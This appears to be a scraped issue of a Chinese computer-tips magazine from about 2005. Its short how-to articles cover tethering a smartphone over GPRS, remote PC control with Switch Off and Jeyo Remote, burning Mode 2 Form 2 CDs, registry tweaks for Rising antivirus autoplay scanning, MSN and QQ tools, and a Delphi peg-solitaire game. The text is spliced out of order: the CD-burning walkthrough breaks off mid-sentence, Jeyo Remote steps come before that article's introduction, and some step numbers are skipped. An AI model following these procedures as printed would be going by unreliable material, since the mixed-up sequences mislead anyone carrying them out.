GPRS上网资费方式有多种，例如笔者所在地区有GPRS自由套餐、GPRS经济套餐、GPRS时尚套餐和GPRS商务套餐四种，你需要根据自己的使用量来确定使用的服务类型，以达到最经济的支出。要注意的是自由套餐，其资费标准为每1KB流量3分钱，听起来挺便宜，不过浏览一个网页至少也得几十个KB，甚至几百个KB，其实很贵的。

-   第二步：设置ActiveSync取消同步连接。双击同步软件ActiveSync系统托盘图标打开主窗口，单击菜单“文件→连接设置”选项，取消“允许通过USB建立连接”前面的“√”标志，并单击“确定”按钮保存。

-   第三步：启用手机调制解调器功能。在手机开始菜单中打开“其他→附件”，再打开“调制解调器链接”功能，这时手机会弹出警告提示“启用调制解调器链接功能可能会引起ActiveSync运行不正常”，按“确定”继续，在打开的链接设置画面中，“连接”栏选择“USB”方式，并按“菜单”按钮选择“激活”命令（见图2）。现在用USB数据线连接手机和电脑，在电脑中会提示发现新硬件，在电脑光驱中放入随机附带的同步软件光盘，单击“下一步”按钮，选择“在这些位置上搜索最佳驱动程序”选项，并单击“浏览”按钮选择光盘根目录，单击“下一步”按钮，系统会自动从光盘上搜索并安装驱动程序，这时会显示驱动安装兼容性提示，直接单击“仍然继续”即可完成驱动安装，最后单击“完成”按钮退出，系统托盘会提示新硬件安装完毕可以使用了。



-   第四步：设置手机调制解调器。这一部分是成功的关键所在。在电脑中打开“控制面板→电话和调制解调器选项”，可以看到在“调制解调器”选项卡中已经有手机调制解调器“Mio DigiWalker SmartPhone USB Modem”了，选中它，单击“属性”按钮打开属性设置对话框，单击“调制解调器”标签，取消“拨号前等待拨号音”选项，再单击“高级”标签，在“额外的初始化命令”栏中填上“AT+cgdcont=1,"IP","cmnet","",0,0”（不含外侧中文引号），单击“确定”按钮保存设置。

-   第五步：建立拨号连接。在电脑中右键单击“网上邻居”图标，选择“属性”，单击“创建一个新的连接”，按照步骤依次选择“连接到Internet→手动设置我的连接→用拨号调制解调器连接→输入ISP名称（随便，如移动GPRS）→输入电话号码*99#→Internet账户信息什么也不输”，最后单击“完成”按钮即可在网络连接窗口中看到新建的“移动GPRS”拨号。双击这个拨号链接，用户名和密码栏什么也不用输入，直接单击“拨号”按钮，稍等片刻，拨号成功后即可在系统托盘处看到拨号连接图标和连接速度提示（见图3），现在打开浏览器就可以上网了。不想上网时，右键单击这个拨号连接图标，选择“断开”即可。

> 小提示
每次使用手机拨号连接前都需要打开手机附件菜单中的调制解调器功能，选择“激活”，然后再插入USB线再进行拨号，但要注意的是，激活后千万不要按“完成”按钮，否则会自动关闭调制解调器功能。如果你需要恢复使用ActiveSync的同步连接，将连接设置中的“允许通过USB建立连接”选上即可。



## 逆向思维：手机通过电脑上网

前面介绍的是让电脑通过手机无线上网，那么反过来，能不能让手机通过电脑上网，享受宽带冲浪的速度呢？答案是肯定的，而且不用付GPRS上网费哦。

-   首先让手机与电脑通过ActiveSync建立好同步连接关系，双击ActiveSync系统托盘图标打开主窗口，单击菜单“工具→选项”，在“共享网络”下拉框中选择“Internet”连接。然后在手机开始菜单中打开“设置”菜单中的“数据连接”，将“Internet连接”选择设置为“共享网络连接”，单击“完成”按钮。好了，现在你就可以在手机上享受宽带上网冲浪的感觉了。

> 小提示
需要使用GPRS上网时，将“Internet连接”重新设置为“CMCC Internet(GPRS)”方式即可。

## 我用电脑手机关电脑

有没有想过用手机在汽车、宾馆等地方远程关机或重启你在家中的电脑？只要你敢想，就能实现！不过在此之前，需要你设置好手机使之能够GPRS上网，并下载一个叫做Switch Off的软件。

Switch Off小档案
软件版本:2.3.0.1
软件大小:481KB
软件性质:共享软件
适用平台:Windows 9x/2000/XP
下载地址:http://www2.skycn.com/soft/1046.html

-   第一步：运行Switch Off，单击“选项”按钮，在“启动选项”标签中设置好启动密码，在“日志选项”标签中设置是否记录日志，在“其他选项”标签中设置好邮件通知（建议设置，以便知道电脑是否被远程关闭或重启），最后单击“确定”按钮保存设置。

> 小提示
如果运行Switch Off后，界面仍显示为英文，则需要打开C:\Program Files\Switch Off汉化版目录，双击目录中的“setup.reg”文件导入注册表。

-   第二步：要通过手机对你的电脑实现远程控制，需要知道自己电脑的IP地址。在“开始”菜单“运行”栏中输入“cmd /k ipconfig”命令显示IP配置信息，记住“IP Address”行后面显示的本机IP地址。

-   第三步：在手机上打开IE，按“菜单”按钮选择“地址栏”，然后输入你的电脑IP地址和Switch Off默认的控制端口号8000，例如“http://224.128.*.**:8000”，按“转到”按钮打开该地址，这时很快就会出现远程控制界面，这里可以选择对你的电脑执行关机、重启、锁定、发送消息等各种控制功能，用上下方向键选择并按确定键就可以选中要执行的操作选项，继续向下浏览，可以看到“确定”按钮，将焦点框移动到这个按钮上，按下手机确定键，然后输入设定的用户名和密码即可执行远程关机等控制功能了。

## 另类超刻 强突700MB限制

如今硬件更新换代速度如走马观花般迅速。笔者一年多以前花了400元买了一台建兴的康宝，当时一张光盘650MB的容量足以满足了我平时备份资料的要求。但时过境迁，今天同样的价格已经可以买到一部相当不错的DVD刻录机了。对DVD刻录机接近5GB的存储容量，康宝的刻录功能一下子就显得很“鸡肋”了。不过对笔者这样的穷鬼来说，升级是件奢侈的事情，权衡之下只好尽量压榨康宝的潜能了。

最常见的压榨刻录机潜能的方法就是超刻。不过超刻这种方式的效果跟刻录机和刻录盘的品质有非常直接的关系，品质一般的刻录机和刻录盘用上超刻可以把光盘容量提升超过10%，但现在市场上刻录机和刻录光盘的价格越来越平易近人，品质却越来越不尽人意了。甚至包括那些国际名牌盘片，品质都有了一定的下降。这种情况下，使用超刻的风险明显增加了：为了把多出的几十MB数据勉强塞进一张光盘里，结果把盘刻飞了，是很得不偿失的。那么难道就没有别的办法了吗？

## 多出来的空间从哪里来？

首先，我们要了解CD-ROM的扇区结构。CD-ROM的扇区结构大体分为Mode 1和Mode 2两种，其中Mode 2又分为Form 1和Form 2。这几者之间有什么区别呢？在Mode 1和Mode 2 Form 1中，每个扇区能记录2048个字节的数据。也就是说你需要写入光盘的资料，会分成若干个2048个字节大小的数据块，分别写入到一个个扇区里面。关键就在这里，多数人都不知道此时每个扇区实际上并不只是记录了这2048个字节，同时还记录了别的东西。我们知道光驱是通过光盘反射回来的激光变化来读取上面的数据的，光盘上任何一道细微的划痕都会产生错误的反射信号，使读取到的资料发生错误。但实际上呢？有时甚至一种中等程度划伤的光盘都能够100%地正确读取，为什么呢？原来，在Mode 1和Mode 2 Form 1中，每个扇区除了记录源数据的2048字节外，还会同时记录根据数据生成的错误纠正码(ECC/Error Correction Code)，长度为276字节，用来纠正读取错误。再加上少量其他信息(见表1)，最终每个扇区里记录了2352个字节。那剩下的Mode 2 Form 2呢？自然就是不含错误纠正码的格式了。而且为了节省光盘空间，把原本用来写入错误纠正码的空间也利用了，这样每个扇区就可以写入2048 + 276 = 2324(见表1)字节的数据块。这样一来，光盘容量就提升了，而且幅度还相当可观(见表2)。由于Mode 2 Form 2不含有错误纠正码，读取的可靠性降低，所以不太适合用来保存像软件之类的对完整性要求极高的数据，而对音频、视频、图片这些即使出现一点错误在使用中也影响不大的数据比较适合。需要特别说明的是Mode 2 Form 2光盘拷贝出来的数据需要通过专门的程序转换才能使用，所以目前常见的刻录软件都不支持直接将资料刻录成Mode 2 Form 2格式的光盘，但是对于刻录现成的Mode 2 Form 2 光盘镜像是可以的。各位看到这里应该明白了，我这里所谓的超刻，是将数据想办法刻录成Mode 2 Form 2结构的光盘，以达到光盘增容的目的。由于这种方式不用像传统的超刻那样超出光盘的标称容量限制，所以严格说不能算超刻。不过这种超刻方法也有所限制，并不是对所有文件都有效。对于多媒体等文件还是有效的，比如很多朋友从BT网站上下载的电影，很多都超过了700MB，这时候刻录就要用到下面的方法了。而且下面的方法可以实现Mode 2 Form 1及Mode 2 Form 2的混合刻录，这样可以尽量大地利用光盘的空间。

道理讲得差不多了，现在来动手实践。

|          | 同步信息 | 扇区地址 | 用户数据 | ECC     | 空闲 | 错误检测 |
|----------|----------|----------|----------|---------|------|----------|
| Mode 1   | 12字节   | 4字节    | 2048字节 | 276字节 | 8字节 | 4字节    |
| Mode 2 Form 1 | 12字节   | 4字节    | 2048字节 | 276字节 | 8字节 | 4字节    |
| Mode 2 Form 2 | 12字节   | 4字节    | 2324字节 |         | 8字节 | 4字节    |

| 光盘标称容量 | 700MB/80min | 800MB/90min | 870/99min |
|--------------|-------------|-------------|-----------|
| 格式         | Mode 1/Form1 Form2 | Mode 1/Form1 Form2 | Mode 1/Form1 Form2 |
| 能够写入的数据容量 | 700MB | 795MB 790MB | 896MB 870MB 987MB |
| 记录120分钟视频所能达到的比特率 | 796kbps | 905kbps 890kbps | 1019kbps 956kbps 1123kbps |
| 记录800kbps的视频能达到的长度 | 119分钟 | 136分钟 135分钟 | 152分钟 148分钟 168分钟 |

## ‘超刻’实例

以刻录《冰冻星球》和《红潮风暴》的RMVB为例，下面就开始进行具体的操作。

第一步：前面提到过，现在的刻录软件基本上都对Mode 2 Form 2的支持都只限于镜像刻录，那只有从制作镜像这一步开始了。制作镜像的工具我们采用mode2cdmack和它的

第一步: 首先通过ActiveSync将你的手机和电脑进行同步连接，当然，如果你有红外适配器的话，建议使用红外线方式进行连接，这样就可以利用Jeyo Remote实现真正的无线遥控。

第二步: 安装Jeyo Remote，它会分别在手机和电脑上各安装一个服务程序。安装完毕后，首先在电脑桌面上双击“Jeyo Remote 2.0 for Smartphone”快捷方式运行电脑端程序，然后在手机开始菜单中打开“Jeyo Remote”手机端程序，它会自动与电脑端程序连接，并显示出主控制菜单，直接按下菜单对应的数字键即可启动相应的遥控功能。例如按下“2”键即可在电脑上运行微软媒体播放器，再按“8”键添加播放列表，即可使用菜单中的播放控制功能来遥控多媒体播放了。通过“Star Menu”菜单命令可以打开电脑开始菜单中的程序，而“Web”功能则是一个方便的网址收藏夹，直接选择即可在电脑上打开Google等常用网址。

在主控制菜单中按下“8”键切换到第二页菜单显示，再按“2”键则可以打开Win Control功能，这时我们还可以通过手机方向键来控制电脑中的鼠标移动，而用手机确认键则可以模拟鼠标左键动作，实现单击、双击等操作。在手机屏幕上方还会显示出电脑中当前程序的名称；对于IE浏览器、资源管理器、媒体播放器等程序，除了可以使用方向键模拟鼠标控制外，还可以通过手机数字键来实现特定的控制功能，具体功能可以在电脑端程序菜单中单击“Tools → Command Manager”打开命令管理窗口，单击“Win Control”标签即可看到可以控制的程序列表，右边的命令列表中显示的就是控制功能设置。

> 小提示
在主控制菜单第二页中按“3”键选择“Task Manager”后，可以通过手机快速切换电脑中的当前任务窗口或者结束任务进程，功能非常强大。

除了使用内置的控制功能操作外，Jeyo Remote还允许我们自定义程序控制功能。在电脑端打开命令管理窗口，在“Menu Definition”选项卡中单击左边的“New”按钮可以新建一个控制程序项目，在“Name”中输入菜单名称，在“File”中选择程序文件即可。而单击右边的“New”按钮则可以新建一个程序控制动作，在“Name”栏中输入动作名称，然后在下面的“Action List”命令列表中选择控制动作的类型，Jeyo Remote提供了非常强大的控制功能，例如File launch(文件运行)、Mouse(模拟鼠标动作)、Text Input(文本输入)等，具体设置也很简单，这里不再详细介绍。

> 小技巧
在命令管理窗口中单击“Export”可以将你精心设计的遥控命令设置导出备份为配置文件，以后通过“Import”功能可以快速导入设置。

## 用手机遥控电脑

一些品牌电脑为了方便操作，配备了专用的电脑遥控器，可以用来控制媒体播放或者运行程序，其实我们使用智能手机也完全可以实现同样的遥控功能，想想躺在床上用手机遥控电脑播放电影、听音乐，将会是多

-   Jeyo Remote 小档案
软件版本:2.0
软件大小:919KB
软件性质:共享软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.jeyo.com/downloads/JeyoRemote.2.0SP4EN.zipGUI程序m2cdmgu（下载地址：http://www.newhua.com/cfan/200520/m2cdmgu16.zip）。第一步：运行m2cdmgu.exe。点击左侧的“Add Files”按钮选择需要刻录的文件添加到程序中（“Add Media Files”按钮的功能也是添加文件，唯一不同的是通过“Add Media Files”按钮添加的文件将自动设置为Mode 2 Form 2格式），此时下方会显示出要占用的光盘空间是782MB，已经大大超过700MB光盘的极限了（见图1）。接着我们选中其中一个文件，点击左面的“Set/Unset Form2”按钮将它设置为Mode 2 Form 2格式，然后重复这个步骤，将所有的文件都设置为Mode 2 Form 2格式（如果你要刻录的电影含有字幕文件，为了保证正确，字幕文件应该使用安全度高的Mode 1格式）。现在再看下方显示的光盘占用容量，只有689MB了（见图2），700MB的光盘能轻松装下，剩下的空间完全可以再放一个K-Lite之类的全能播放器，方便借给不太懂电脑的朋友欣赏。

第三步：左侧按钮下方还有几个选项，也值得注意。“Single Track”的作用是将Mode 1和Mode 2 Form 2格式的文件混合成一条轨道来记录，否则就分成两条。这样做的好处是当刻录大量小于300KB的Mode 2 Form 2格式文件（比如大量的图片）时可以节省空间，同时增加对刻录机的兼容性。坏处则是不兼容Linux。所以只要不选Linux，最好把它选上。“Keep Extension”的作用是保留Mode 2 Form 2格式文件的扩展名。由于有的Mode 2 Form 2格式的文件不能直接使用，制作镜像时程序默认会把所有Mode 2 Form 2格式的文件的扩展名改成DAT。比如文件全名是1.RMVB，如果不选这一项，那在镜像中它将变成1.DAT，如果选中这一项将变成1.RMVB.DAT。如果想保持1.RMVB这个文件名不变也可以（这样便于在光盘上直接播放），右下方“Form 2 Ext”这个选项负责Mode 2 Form 2格式文件的默认扩展名，将这里的“DAT”改成“RMVB”，同时不要选中“Keep Extension”就行了。不过这样做的缺点是镜像中所有的Mode 2 Form 2格式的文件不管之前的类型是什么都将变成是RMVB，所以除非设置成Mode 2 Form 2的文件都是同一种类型，否则不建议这么做。在这里，我用到的所有文件都是RMVB格式，所以采用“1.RMVB”这种方案。接下来从“BIN/CUE”处的下拉菜单中选择镜像格式用“BIN/CUE”还是“CloneCD”。理论上CloneCD格式的可靠性更高，但兼容性不好，只被CloneCD和Alcohol 120%所支持。BIN/CUE则被几乎所有的刻录软件所支持，实际使用中在可靠性上面也不会有什么问题，所以推荐你选择“BIN/CUE”。在“Save Image To”这里选择存放镜像的路径和文件名（注意不要输入扩展名），如G:video，在“Volume Name”填上光盘的卷标。最后，点击“Write ISO”创建镜像文件，完成。此时在G盘的根目录下就会生成video.bin、video.cue、video.toc三个文件。

# Mode 2 Form 2 光盘的使用

常言道：有得必有失。使用这种方法虽然不费一分一厘就成功地将刻录容量提升不少，但随之也产生了一个问题：部分Mode 2 Form 2光盘的数据是不能直接被电脑正确识别的，需要转换一下才可以用。一般说来，大部分种类的视频文件和一部分种类的音频文件都是可以直接使用的。其他文件需要借助“XCD File Extractor”（http://www.newhua.com/cfan/200520/XCDextractor.zip）这个小工具将Mode 2 Form 2光盘上的数据还原成普通格式。方法如下：首先运行XCD File Extractor（见图4），选中“Try to guess file”项，点击“- Source File -”右侧的“...”按钮，选择你要还原的文件，然后再点击“- Destination File -”右侧的“...”按钮，选择保存的位置和文件名（如果之前你将文件扩展名设置成了DAT，这里输入的文件名可以纠正过来），最后点击“Extractor”，文件就被还原出来了。（河北 Gartour）

# 快速修复注册表

如果在杀毒后，注册表文件关联出现错误，或是有未删除的注册表启动项，可以从http://download.rising.com.cn/zsgj/RegClean.com，下载瑞星注册表修复工具，用它来修改你的注册表。打开软件，选择“操作→扫描”菜单项，得到扫描的结果，再选择“操作→修复”菜单项，完成修复操作即可。另外，在窗口左下侧的“注册表启动项”标签下，去除无用启动程序的勾选，进行修复。（小黑）

# TM2005 办公族必备 MSN的COSPLAYER

前段，TM2005正式版（下载地址：http://im.qq.com/tm/dlshtml）已经推出，TM是腾讯公司制作的主要面向办公环境中使用IM需求的用户。TM2005在安全方面进行了提高，大体和QQ2005 Beta3相同，这里不再多做介绍，我们主要来介绍其他一些更新内容。

-   1.更快捷找到联系人
在新版TM2005中，已经可以通过联系人的名字、账号、电话、E-mail，甚至是拼音，来找到想要的联系人，方法非常简单：在主窗口点击放大镜按钮，在展开的文本框中输入联系人的任意信息，就可以搜索到该联系人了（见图1）。
-   2.快速处理未读消息
新版TM中，当一段时间内没有及时处理好友消息时，不必再一个一个进行查看了，我们只要将光标指向系统托盘中TM的图标，在弹出的窗口中选择要处理的信息即可（见图2）。
-   3.其他新增功能
除了上面介绍的功能，TM2005还增加了腾讯气象站，重新设计的消息管理器等。
小编辑有话说：很多朋友都说TM2005新版本去除了“从对方名单中删除自己”的功能，其实这项功能在早期版本中就是QQ的黑名单功能（大家只要切换到QQ就会看到了）。在TM2005中此功能已经改为“删除该联系人”项。（克劳德）

# 软件·实用软件

# 我在做什么，你知道吗？——为MSN Messenger添加监视功能

在MSN Messenger 7.0（以下简称MSN）里，有个可以显示正在播放的歌曲功能，即只要用Windows Media Player或千千静听（使用插件Winamp、foobar2000等播放器也可以实现这个功能）播放歌曲，别人在MSN上就能看到歌名（见图）。不过仅仅是这点功能总觉得是种浪费，现在我们就来让这个功能变个样。

-   第一步：安装好新版MSN Shell，同时，进入MSN，点击“工具→选项”菜单项，确认“个人信息”下的“在个人消息中显示Windows Media Player正在播放的歌曲信息”项已被勾选。
-   第二步：在MSN主窗口中点击“Shell→设置”菜单项。
-   第三步：在弹出的“选项”窗口左侧点击“个性化设置”，在窗口右侧点击“个性化信息”标签，用“添加”按钮添加个性化信息，比如http://www.cfan.com.cn，并在“显示图标”中选择自己喜欢的图标，比如“音乐”，“应用”后，就可以在昵称后面看到添加的个性化信息了。当“显示图标”为“音乐”时，个...

★如果你想让‘个性化信息’滚动起来，只要在‘滚动显示个性化信息’标签中添加即可。这样你甚至可以先显示一段广告词，最后再出现网址，非常方便。★新版MSN Shell还有很多新功能，比如截屏后，将截图放入剪贴板，以方便其他工具使用；增加‘收藏到MSN’功能，将网站快速收藏至MSN左侧标签栏；同时修正很多BUG，推荐大家升级使用。

如果信息总是不变，那多无聊，能不能让它显示出我们正在使用的应用程序呢？比如运行了CS，就在个性化信息的位置显示‘我在打游戏，有事请打电话’。这样的贴心提示，那么如何制作出来呢？来看看MSN7 Task Monitor是如何实现的吧。

| 软件版本 | 1.2 |
| --- | --- |
| 软件大小 | 897KB |
| 软件性质 | 免费软件 |
| 适用平台 | Windows 2000/XP |
| 下载地址 | http://www.onlinedown.net/soft/42390.htm |
| 软件备注 | 使用软件前，需要先安装.NET Framework下载地址：http://www.microsoft.com/downloads/details.aspx?displaylang=zh-cn&FamilyID=262d25e3-f589-4842-8157-034d1e7c0a33 |

下面就让MSN上的好友，知道你打开或关闭了QQ吧。

-   第一步：安装并打开MSN7 Task Monitor（以下简称MTM）。
-   第二步：在主窗口点击“Edit List”按钮。在之后弹出的监控程序列表窗口中点击“New Item”按钮。
-   第三步：这时会弹出应用程序选择窗口，从下拉菜单中选择“QQ.exe”，点击“Next”按钮。接着，在“Name”中输入显示的名称，如“QQ”，在“Message”中输入在MSN中显示的信息，如“我开着QQ”。最后在“Icon”（图标）中选择图标，我们选择“Application”（应用程序），完成添加。
-   第四步：回到监控程序列表窗口，点击“Save List”按钮，将新列表替换至MTM安装目录下的Config.xml。
-   第五步：回到软件主窗口，点击“Reload List”按钮，刷新列表，这时别人在MSN里就可以看到你的新“状态”了。

上面方法仅能添加正在运行的程序，如要添加任意程序，则需要使用如下方法：用“记事本”等编辑软件直接打开软件安装目录下的Config.xml文件，参考已有的信息在<config>及</config>之间进行添加，在“app”属性输入程序名，“icon”属性输入使用的图标（“o”为应用程序，“g”为游戏），“message”属性输入MSN上显示的信息，“description”属性输入在MTM中显示的名称。比如，直接添加<item app=“QQ.exe” icon=“o” message=“我开着QQ” description=“QQ”>就可以完成本实例的操作。

（河北省隆化县 陈书营）

# 给瑞星添加移动存储自动杀毒功能

最近，很多杀毒软件新增加了插入移动存储设备（如闪存盘、移动硬盘等）自动杀毒的功能。这个功能确实有一定的实用性，并且可以减少一些通过优盘等移动存储设备传播病毒的机会。

其实，实现移动存储自动杀毒并不需要很高的技术含量，只需要对注册表进行简单的修改即可给瑞星也添加上这个功能（见图1）。

下面请跟我一步一步进行操作，强烈建议修改注册表前先进行备份以避免不必要的麻烦。注意：该功能仅支持WindowsXP及其更高版本的操作系统。

-   第一步：创建瑞星移动存储杀毒的事件句柄（Handler）。打开注册表编辑器，展开[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\AutoplayHandlers\Handlers]，在下面建立名为RAV2006Killvirus的子项，然后在[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\AutoplayHandlers\Handlers\RAV2006Killvirus]中建立如下键值（见图2）：“Action”（不含外侧引号，下同）键值为“扫描病毒”，“DefaultIcon”键值为“D:\Program Files\Rising\Rav\rav.exe”,0”（请根据情况自行修改瑞星所安装的路径），“InvokeProgID”键值为“RAV2006.AutoPlay.1”，“InvokeVerb”键值为“open”，“Provider”键值为“瑞星杀毒软件”。
-   第二步：建立瑞星移动存储自动杀毒的类（Class）。在第一步中，我们设置“InvokeProgID”的值指向“RAV2006.AutoPlay.1”，这一步我们就需要建立这个类的Class。进入[HKEY_CLASSES_ROOT]，依次新建RAV2006.AutoPlay.1\shell\open\command子项，将其默认值修改为瑞星主程序所在路径并在其后添加“%1”字样。我的瑞星安装在D盘，即“D:\Program Files\Rising\Rav\rav.exe”“%1”。

★“RAV2006.AutoPlay”这个名字可以随便起，但是必须和Handler中的InvokeProgID值保持一致。

-   第三步：设置事件句柄（EventHandlers）。依次展开[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\AutoplayHandlers\EventHandlers]项，在GenericVolumeArrival、HandleCDBurningOnArrival、MixedContentOnArrival、PlayCDAudioOnArrival、PlayMovieOnArrival、PlayMusicFilesOnArrival、ShowPicturesOnArrival、VideoCameraArrival子项下分别添加名为RAV2006Killvirus的字符串项目，值为空。这样，在插入闪存盘、光盘等移动存储设备时就可以看到瑞星杀毒的选项了。
-   第四步：设置事件句柄的默认选择值。依次展开[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\AutoplayHandlers\EventHandlersDefaultSelection]。把下面的ShowPicturesOnArrival、PlayMusicFilesOnArrival、MixedContentOnArrival、PlayVideoFilesOnArrival的值设置为RAV2006Killvirus。这样“打开图片”、“播放音乐”等操作的默认选择就变成了“使用瑞星杀毒”。

小编有话说：如果你觉得很麻烦，不想这样做，可以使用某位高手制作的小工具，快速添加或禁用移动设备杀毒功能，下载地址：http://www.newhua.com/cfan/200520/autoplay.exe。

（瑞星工程师 史璐）

# QQMail不用QQ收

腾讯最早推出邮件服务时，只能使用QQ中集成的邮件客户端来收取。不过，这样很麻烦，毕竟很多公司无法安装QQ，只能使用MSN Messenger，而一些好友又喜欢通过QQ邮箱发送文件。

不过，现在使用Outlook、Outlook Express（简称OE）和Foxmail也同样可以收取QQ邮件了，这里以OE为例：首先，打开OE，点击菜单中的“工具→账户”，在弹出窗口中点击“添加→邮件”按钮。然后，依次输入显示名等信息，POP3服务器设置为pop.qq.com，SMTP服务器设置为smtp.qq.com，账户名设置为QQ号，密码用QQ密码即可。

（ABC）

# 用 Delphi 编写拔钉子游戏

## Borland 和 Delphi

Philippe Kahn 的 Borland 是一家富有传奇色彩的公司。1982 年，Philippe 持旅游签证和仅有 2000 美元从法国到美国硅谷创业，由于囊中羞涩，只好租人家的车库来办公。1983 年，Kahn 和丹麦人 Anders Hejlsberg，也就是如今大名鼎鼎的微软 C# 的核心开发者，合作开发了 Turbo Pascal。Turbo Pascal 是一个里程碑式的产品，它第一次把编译时间由分钟缩短到秒，并且其 49 美元的低廉价格创造了纪录，在市场上引起巨大反响，使 Borland 在短短的两年内赚得盆满钵满。此后，Borland 又接连不断推出 Turbo Basic、Turbo C、Turbo Prolog 等编译器，由于技术先进，使得在竞争中总是处于劣势的微软对它恨之入骨。据说，由于当时微软的开发工具一直打不过 Borland 的产品，因此在微软的开发工具刊物上曾经出现一个署名为 Buck Forland 的作者不断地以文章嘲笑 Borland。由于这位作者的文章内容以及他的笔名引起了当时 Borland 的不满以及大量 Borland 使用者的强烈抗议，这位作者不久之后便突然消失了。个中缘由么，你只需要把 Buck Foland 这两个英文单词的第一个字母一对调一下，你一定能够看出这是怎么一回事了。

Borland 在开发人员眼中简直就是一个奇迹，在它的众多明星级开发工具中，Delphi 无疑是最璀璨的明珠。在中国，Delphi 还有个非常好听的名字——戴妃。她不但能够快速编译应用程序、具有面向对象的功能、能够进行可视化开发，同时拥有完整封装 Windows 对象的构架。我们身边很多应用程序，比如 Foxmail，都是用 Delphi 开发的。在这篇文章中，我们将引导大家安装配置 Delphi 7 个人版，并且编写一个拔钉子的小游戏程序。

## 亲密接触 Delphi 7 个人版

百闻不如一见，学习 Delphi 最直接的方法就是亲自体验一下。

Borland 公司非常慷慨地提供了 Delphi 7 个人版（以下简称 Delphi 7 PE）以供非盈利的学习之用。你可以从 http://www.borland.pl/downloads/delphi_7_personal/Delphi7_Personal.zip 下载，大约 60MB。此外，你还需要到 http://www.borland.com/downloads/download_delphi.html 点击 Keys Only 区域的 Personal 链接进行注册，Borland 便会把 Delphi 7 PE 的序列号以及注册文件发送给你。你只需要在安装时输入序列号，并且在启动 Delphi 7 PE 之前把注册文件复制到你的用户根目录中（比如 Windows 2000/XP 用户的根目录是 C:\Documents and Settings\<你的用户名>），这样才能够正常使用。

实际上，Delphi 7 PE 除了一些企业级的控件之外，与普通版本区别很小，所以，赶快下载这份来自 Borland 的厚礼，与戴妃一亲芳泽！

## 拔钉子游戏

这是一个在欧美非常流行的益智游戏，如图1所示。在一个 5×5 的三角形棋盘上，除了一个孔之外都插满了钉子。玩家可以通过跳过一根钉子并且跳到一个空的孔中，才能够拔掉被跳过的钉子。注意，跳跃只允许在直线上进行，并且只能够跳过一根钉子，不允许同时跳过若干根钉子。游戏的目标就是使得盘面上的钉子只剩下一根（见图1）。

## 游戏设计

Delphi 是一种支持快速应用程序开发（Rapid Application Development）的工具，一般从设计程序界面开始。请根据图 2 拖放控件并且设置相应的 Name 属性即可。

游戏界面很简单，ImagePeg 和 ImageBall 用来表示钉子和空的棋盘孔，Image00…Image04、Image10…Image13、Image20…Image22、Image30…Image31、Image40 用来表示 5×5 的三角形棋盘，实际上，在游戏运行时将根据内部棋盘状态把 ImageHole 或者 ImagePeg 复制到这些 Image 控件上。右边一排四个 TSpeedButton 用来提供四种不同的游戏开局。

如果你觉得一个一个设置属性比较麻烦，可以直接从文末所附的地址下载完整的源程序，在 Delphi 中打开即可。

界面设计完成以后，就可以开始编码了。

首先让我们设计棋盘的内部数据结构。实际上，5 × 5 的三角形可以看成是 5 × 5 矩阵的一大半，所以我们定义一个 TMatrix 的数据结构来表示矩阵：

```
TMatrix = array[0..4] of array[0..4] of Integer;
```

我们规定用 -1、0 和 1 分别表示某个位置不可操作、空和有钉子。以下的 ClearBoard 和 DrawBoard 方法便是根据 Board 来初始化棋盘和绘制棋盘的函数：

```
procedure TFormPegBoard.ClearBoard;
var
  I, J: Integer;
begin
  for I := 0 to 4 do
    for J := 0 to 4 do
    begin
      if I + J > 4 then
        Board[I][J] := -1
      else
        Board[I][J] := 1;
    end;
end;
```

```
procedure TFormPegBoard.DrawBoard;
var
  I, J: Integer;
  Image: TImage;
begin
  for I := 0 to 4 do
    for J := 0 to 4 do
      if I + J < 5 then
      begin
        Image := FindComponent('Image' + IntToStr(I) + IntToStr(J)) as TImage;
        if Board[I][J] = 0 then
          Image.Picture.Bitmap.Assign(ImageHole.Picture.Bitmap)
        else
          Image.Picture.Bitmap.Assign(ImagePeg.Picture.Bitmap);
      end;
end;
```

有了这两个函数，我们便可以如下初始化棋盘了。比如，第四种初始化函数为：

```
procedure TFormPegBoard.ButtonBoard4Click(Sender: TObject);
begin
  ClearBoard;
  Board[1][1] := 0;
  DrawBoard;
end;
```

它执行出来的效果如图 3 所示。

其他三种初始化方法与这个类似，仅需要把第二句修改为 Board[0][0] := 0;、Board[1][0] := 0;、Board[2][0] := 0; 即可。透露一个小秘密：第四种初始化棋盘是最难完成的哦！

下面只要在现有代码上加入拖拽的功能，也就是当鼠标点击一个钉子时开始拖拽，且仅当鼠标移动到合法的孔上才允许释放鼠标完成拖拽。在 Delphi 中完成拖拽，需要三个步骤：

1.  鼠标按下时开始拖拽：

```
procedure TFormPegBoard.BallMouseDown(Sender: TObject;
  Button: TMouseButton; Shift: TShiftState; X, Y: Integer);
begin
  ...
  // 当点击一个钉子，则允许拖拽
  if Board[Row][Column] = 1 then
    Image.BeginDrag(False, 5);
end;
```

2.  当鼠标移动时，判断是否允许释放：

```
procedure TFormPegBoard.BallDragOver(Sender,
  Source: TObject; X, Y: Integer; State: TDragState; var Accept: Boolean);
begin
  ...
  if (Board[FromX][FromY] = 1) and (Board[ToX][ToY] = 0) then
  begin
    // 检查两个孔是否在同一行、同一列或者同一对角线
    if (FromX = ToX) and (Abs(FromY - ToY) = 2) then
      Accept := Board[FromX][(FromY + ToY) div 2] = 1;
    if (FromY = ToY) and (Abs(FromX - ToX) = 2) then
      Accept := Board[(FromX + ToX) div 2][FromY] = 1;
    if (Abs(FromX - ToX) = 2) and (Abs(FromY - ToY) = 2) then
      Accept := Board[(FromX + ToX) div 2][(FromY + ToY) div 2] = 1;
  end;
end;
```

3.  当鼠标释放时，根据刚才的判断完成拖拽：

```
procedure TFormPegBoard.BallEndDrag(Sender,
  Target: TObject; X, Y: Integer);
begin
  ...
  if Assigned(Target) then
    // 执行合法的操作 ...
  else
    // 恢复原始状态 ...
end;
```

为了使拖拽更生动，程序中还实现了对拖拽的定制，主要是定义了为拖拽时候提供动态显示效果的 TDragPegControl 类和定制基本的拖拽操作 TDragPegControlObject 类，具体的请大家通过阅读源代码理解了。

总之，Delphi 为我们做了很多底层的工作，我们只要在这个庞大并且结实的地基上添砖加瓦，便能够编写出很有意思的应用程序。

（北京 Samuel）## InfoPath 信息的快行道

